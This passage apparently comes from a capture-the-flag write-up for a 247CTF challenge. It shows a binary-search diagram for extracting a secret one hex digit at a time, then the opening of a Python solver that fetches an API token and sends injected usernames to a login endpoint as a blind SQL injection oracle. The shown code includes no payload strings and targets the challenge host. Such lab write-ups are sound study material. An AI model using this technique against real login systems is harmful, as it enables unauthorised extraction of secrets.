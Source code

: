 For example, if a certain digit is 0xd, during Binary Search, it can be searched with only 4 requests as follows:

```text
Example: actual is 0xd

     0x0 0x1 0x2 0x3 0x4 0x5 0x6 0x7 0x8 0x9 0xa 0xb 0xc 0xd 0xe 0xf  m < 0xd
    ┌───┬───┬───┬───┬───┬───┬───┬───┬───┬───┬───┬───┬───┬───┬───┬───┐
1st │ l │   │   │   │   │   │   │ m │   │   │   │   │   │   │   │ r │ true    so l=m+1
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┤
2nd │   │   │   │   │   │   │   │   │ l │   │   │ m │   │   │   │ r │ true    so l=m+1
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┤
3rd │   │   │   │   │   │   │   │   │   │   │   │   │ l │ m │   │ r │ false   so r=m
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┤
4th │   │   │   │   │   │   │   │   │   │   │   │   │ lm│ r │   │   │ true    so l=m+1
    └───┴───┴───┴───┴───┴───┴───┴───┴───┴───┴───┴───┴───┴───┴───┴───┘
                                                          lr
l < r is false so does not enter the 5th loop and return l (=0xd).
```

## Solution

solver.py

```python
import re
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://387a78abf72f135f.247ctf.com"

def get_token():
    res = s.get(f"{BASE_URL}/api/get_token")
    m = re.findall(
        r"The API key has been reset to ([0-9a-f]{32})!",
        res.json().get("message"),
    )

    if not m:
        print("not found m")
        return

    return m[0]


def sqli(payload, token=None):
    if not token:
        token = get_token()

    res = s.post(
        f"{BASE_URL}/api/login",
        data={"username": payload, "password": "", "api": token},
    )

    if res.json()["message"] in [
        "Sorry, your API key is only valid for 128 uses!",
        "SQLite error!",
    ]:
        raise Exception(f'Error: {res.json()["message"]}')

    return res.json()["result"] == "success"
```